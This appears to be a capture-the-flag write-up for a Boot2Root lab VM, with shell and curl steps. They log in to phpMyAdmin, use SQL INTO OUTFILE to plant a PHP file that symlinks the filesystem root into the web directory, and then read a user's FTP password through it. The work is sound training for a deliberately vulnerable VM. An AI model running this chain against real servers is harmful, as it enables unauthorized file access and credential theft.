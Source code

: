 ## [Apache suEXEC](https://www.exploit-db.com/exploits/27397)

### Find our VM IP
```shell
IP=`prlctl list -f | grep "Boot2Root" | awk '{print $3}'`
echo $IP
```

### Scan ports
```shell
nmap -sV $IP | grep "Apache"
```

### Auth to db
```shell
$db_login=`cat ../scripts/writeup1/db_login`
$db_password=`cat ../scripts/writeup1/db_password`

db_cookie_path="scripts/writeup1/db_cookie.txt"
curl https://$IP/phpmyadmin/index.php -X POST -k -c $db_cookie_path --data-raw "pma_username=$db_login&pma_password=$db_password" 2>/dev/null | grep "token" | head -n 1 | cut -d "=" -f 8 | cut -d "&" -f 1
token=`curl https://$IP/phpmyadmin/index.php -k -b $db_cookie_path 2>/dev/null | grep "token" | head -n 1 | cut -d "=" -f 3 | cut -d "'" -f 1`
echo $token
```

### A little injection
```sql
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

```shell
curl https://$IP/phpmyadmin/import.php -X POST -k -b $db_cookie_path --data-raw "is_js_confirmed=0&token=$token&pos=0&goto=server_sql.php&message_to_show=SQL-%D0%B7%D0%B0%D0%BF%D1%80%D0%BE%D1%81+%D0%B1%D1%8B%D0%BB+%D1%83%D1%81%D0%BF%D0%B5%D1%88%D0%BD%D0%BE+%D0%B2%D1%8B%D0%BF%D0%BE%D0%BB%D0%BD%D0%B5%D0%BD&prev_sql_query=&sql_query=SELECT+1%2C+'%3C%3Fphp+symlink(%5C%22%2F%5C%22%2C+%5C%22paths.php%5C%22)%3B%3F%3E'+INTO+OUTFILE+'%2Fvar%2Fwww%2Fforum%2Ftemplates_c%2Frun.php'&bkm_label=&sql_delimiter=%3B&show_query=1&ajax_request=true"
```

### Steal FTP password
```shell
curl https://$IP/forum/templates_c/run.php -k
curl https://$IP/forum/templates_c/paths.php/home/LOOKATME/password -k
```

-> [FTP Part Writeup2](../writeup2.md#Inspect FTP)
